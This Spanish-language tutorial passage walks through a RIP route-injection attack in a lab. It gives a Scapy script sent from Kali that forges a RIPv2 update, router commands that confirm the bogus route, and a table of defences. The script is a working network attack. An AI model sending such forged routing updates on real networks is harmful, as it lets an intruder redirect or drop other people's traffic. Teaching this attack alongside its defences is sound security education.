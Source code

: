 
#### 📜 Paso a paso:

##### 1. En Kali (con Scapy):

```python
from scapy.all import *

rip_packet = IP(dst="224.0.0.9")/UDP(sport=520, dport=520)/RIP(cmd=2, version=2)/RIPEntry(af=2, addr="10.10.10.0", mask="255.255.255.0", metric=1)

send(rip_packet)
```

Este comando:

- Envía un anuncio RIP v2
- Con una ruta inventada a `10.10.10.0/24`
- Métrica 1 = muy confiable

---

##### 2. En el Router:

```bash
show ip route
```

Si ves algo así:

```
R    10.10.10.0/24 [120/1] via 192.168.1.100
```

✅ Ataque verificado: la ruta fue aceptada.

---

##### 3. Verifica tráfico real:

Desde otro host, haz ping:

```bash
ping 10.10.10.1
```

⚠️ Puede fallar (la red no existe), pero **el tráfico se enviará igual**, confirmando que el router fue engañado.

---

### 🔐 ¿Cómo prevenir esto?

| Defensa                 | Qué hace                                                    |
| ----------------------- | ----------------------------------------------------------- |
| 🔒 Autenticación de RIP | Evita paquetes falsos (clave MD5 o simple)                  |
| 🎯 Access Lists         | Solo permitir actualizaciones de routers válidos            |
| 🔎 Monitoreo constante  | Usar SNMP, Syslog, o NMS para detectar rutas sospechosas    |
| 📉 Métricas seguras     | Evitar aceptar rutas de métrica sospechosamente baja        |
| 🧱 Separación de red    | No mezclar routers con dispositivos que no deben enviar RIP |

---